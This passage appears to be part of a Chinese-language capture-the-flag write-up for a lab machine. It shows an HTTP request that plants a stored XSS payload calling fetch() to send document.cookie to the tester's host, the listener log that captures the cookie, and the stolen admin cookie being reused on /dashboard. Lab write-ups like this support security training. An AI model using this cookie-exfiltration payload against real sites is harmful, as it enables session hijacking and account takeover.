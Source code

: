 对数据包进行编辑，植入 XSS 载荷

```plaintext
POST /support HTTP/1.1
Host: 10.10.11.8:5000
Content-Length: 154
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.8:5000 <img src=x onerror="fetch('http://10.10.16.3:9999/?'+ btoa(document.cookie))" ;/>
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.8:5000/support
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

fname=admin&lname=admin&email=admin%40admin.com&phone=123456789&message=<img src=x onerror="fetch('http://10.10.16.3:9999/?'+ btoa(document.cookie))" ;/>
```

同时 `nc -lvnp 9999` 开启监听，即可收到

```shell
┌──(randark ㉿ kali)-[~]
└─$ sudo python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
10.10.11.8 - - [25/Mar/2024 22:45:34] "GET /?aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```

```plaintext
aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=

Base 64 Decode: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

同时通过目录爆破，扫描到 `/dashboard` 路由

将得到的 cookie 填入浏览器中，访问 `http://10.10.11.8:5000/dashboard`
